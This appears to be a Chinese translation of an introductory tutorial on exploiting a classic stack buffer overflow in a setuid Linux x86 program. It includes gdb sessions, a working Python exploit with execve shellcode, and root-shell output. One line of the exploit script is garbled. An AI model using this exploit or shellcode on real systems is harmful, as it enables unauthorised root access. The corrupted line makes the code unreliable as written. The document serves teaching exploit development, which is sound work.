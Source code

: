 #  典型的基于堆栈的缓冲区溢出

> 译者：[hackyzh](http://bbs.pediy.com/user-694899.htm)

> 原文：[Classic Stack Based Buffer Overflow](https://sploitfun.wordpress.com/2015/05/08/classic-stack-based-buffer-overflow/)

虚拟机安装：Ubuntu 12.04（x86）

这个帖子是最简单的漏洞开发教程系列，在互联网上你可以找到很多关于它的文章。尽管它丰富和熟悉，我更喜欢自己写博客文章，因为它将作为我未来许多职位的先决条件！

**什么是缓冲区溢出？**

将源缓冲区复制到目标缓冲区可能导致溢出

1、源字符串长度大于目标字符串长度。

2、不进行大小检查。

缓冲区溢出有两种类型：

1、基于堆栈的缓冲区溢出 - 这里的目标缓冲区位于堆栈中

2、基于堆的缓冲区溢出 - 这里的目标缓冲区位于堆中

在这篇文章中，我将只讨论基于堆栈的缓冲区溢出。堆溢出将在Linux（x86）漏洞开发教程系列的 “3级”中讨论！

缓冲区溢出错误导致任意代码执行！

**什么是任意代码执行？**

任意代码执行允许攻击者执行他的代码以获得对受害机器的控制。受害机器的控制是通过多种方式实现的，例如产生根shell，添加新用户，打开网口等...

听起来很有趣，足够的定义让我们看看缓冲区溢出攻击的代码！

漏洞代码

```c
//vuln.c
#include <stdio.h>
#include <string.h>
int main(int argc, char* argv[]) {
        /* [1] */ char buf[256];
        /* [2] */ strcpy(buf,argv[1]);
        /* [3] */ printf("Input:%s\n",buf);
        return 0;
}
```

编译代码

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

上述漏洞代码的`[2]`行显示了缓冲区溢出错误。这个bug可能导致任意代码执行，因为源缓冲区内容是用户输入的！

**如何执行任意代码执行？**

使用称为“ 返回地址覆盖 ”的技术实现任意代码执行。这种技术有助于攻击者覆盖位于堆栈中的“返回地址”，并且这种覆盖将导致任意代码执行。

在研究漏洞代码之前，为了更好的理解，让我们反汇编并且绘制出漏洞代码的堆栈布局。

反汇编

```asm
(gdb) disassemble main
Dump of assembler code for function main:
   //Function Prologue
   0x08048414 <+0>:push   %ebp                      //backup caller's ebp
   0x08048415 <+1>:mov    %esp,%ebp                 //set callee's ebp to esp
   0x08048417 <+3>:and    $0xfffffff0,%esp          //栈对齐
   0x0804841a <+6>:sub    $0x110,%esp               //stack space for local variables
   0x08048420 <+12>:mov    0xc(%ebp),%eax            //eax = argv
   0x08048423 <+15>:add    $0x4,%eax                 //eax = &argv[1]
   0x08048426 <+18>:mov    (%eax),%eax               //eax = argv[1]
   0x08048428 <+20>:mov    %eax,0x4(%esp)            //strcpy arg2 
   0x0804842c <+24>:lea    0x10(%esp),%eax           //eax = 'buf' 
   0x08048430 <+28>:mov    %eax,(%esp)               //strcpy arg1
   0x08048433 <+31>:call   0x8048330 <strcpy@plt>    //call strcpy
   0x08048438 <+36>:mov    $0x8048530,%eax           //eax = format str "Input:%s\n"
   0x0804843d <+41>:lea    0x10(%esp),%edx           //edx = buf
   0x08048441 <+45>:mov    %edx,0x4(%esp)            //printf arg2
   0x08048445 <+49>:mov    %eax,(%esp)               //printf arg1
   0x08048448 <+52>:call   0x8048320 <printf@plt>    //call printf
   0x0804844d <+57>:mov    $0x0,%eax                 //return value 0
   //Function Epilogue
   0x08048452 <+62>:leave                            //mov ebp, esp; pop ebp; 
   0x08048453 <+63>:ret                              //return
End of assembler dump.
(gdb)
```

堆栈布局：

![](http://bbs.pediy.com/upload/attach/201704/694899_mx9rnvfv0rwlgaj.png)

因为我们已经知道用户输入的大于256，将溢出目标缓冲区并覆盖堆栈中存储的返回地址。通过发送一系列`A`来测试它。

测试步骤1：是否可以覆盖返回地址？

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*300'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*300'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

以上输出显示指令指针寄存器（EIP）被`AAAA`覆盖，这样可以确定覆盖返回地址是可能的！

测试步骤2：目的缓冲区的偏移量是多少？

这里让我们找出返回地址相对与目的缓冲区`buf`的偏移量。在反汇编并绘制了`main`的堆栈布局后，现在可以尝试找到偏移位置信息！ 堆栈布局显示返回地址位于距目标缓冲区`buf`的偏移（`0x10c`）处。`0x10c`计算如下：

```
0x10c = 0x100 + 0x8 + 0x4
```

**其中**

```
0x100 is ‘buf’ 大小
0x8 is 对齐空间    //这里有点不太明白为啥需要对齐
0x4 is 调用者的ebp
```

因此，用户输入的 `"A" * 268 + "Bv * 4`，覆盖了`buf`，对齐空间和调用者的ebp覆盖为`A`并且返回地址变为`BBBB`

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/new/csof/vuln...done.
(gdb) r `python -c 'print "A"*268 + "B"*4'`
Starting program: /home/sploitfun/lsploits/new/csof/vuln `python -c 'print "A"*268 + "B"*4'`
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

以上输出显示攻击者可以控制返回地址。 位于堆栈位置（`0xbffff1fc`）的返回地址被`BBBB`覆盖。 有了这些信息，我们可以编写一个漏洞利用程序来实现任意的代码执行。

攻击代码：

```py
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call
#Stack address where shellcode is copied.
ret_addr = 0xbffff1d0       
               
#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
#endianess convertion
def conv(num):
 return struct.pack("<I",numnk + RA + NOP's + Shellcode
buf = "A" * 268
buf += conv(ret_addr)
buf += "\x90" * 100
buf += scode
print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上面的exploit程序，给了我们root shell，如下所示：

```
$ python exp.py 
Calling vulnerable program
Input:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��S���
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

注意：为了获得这个root shell，我们关闭了许多漏洞利用缓解技术。 对于所有文章中的1级，我已经禁用了这些利用减轻技术，因为第1级的目标是向您介绍漏洞。 当我们进入Linux（x86）利用开发教程系列的“2级”时，真正的乐趣会发生在这里，我将在此讨论绕过这些利用减轻技术！

